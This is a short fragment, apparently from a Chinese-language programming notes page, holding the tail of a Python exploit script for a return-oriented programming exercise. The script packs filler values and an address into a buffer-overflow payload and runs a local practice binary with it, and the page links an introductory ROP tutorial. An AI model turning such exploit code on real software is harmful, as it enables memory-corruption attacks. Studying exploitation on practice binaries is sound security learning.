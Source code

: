 ```python
payload += struct.pack("I", 0xcafebabe)
payload += struct.pack("I", 0xbadf00d)

# Our final destination.
payload += struct.pack("I", exec_string)

os.system("./a.out \"%s\"" % payload)
```



参考链接：

http://codearcana.com/posts/2013/05/28/introduction-to-return-oriented-programming-rop.html#fn-2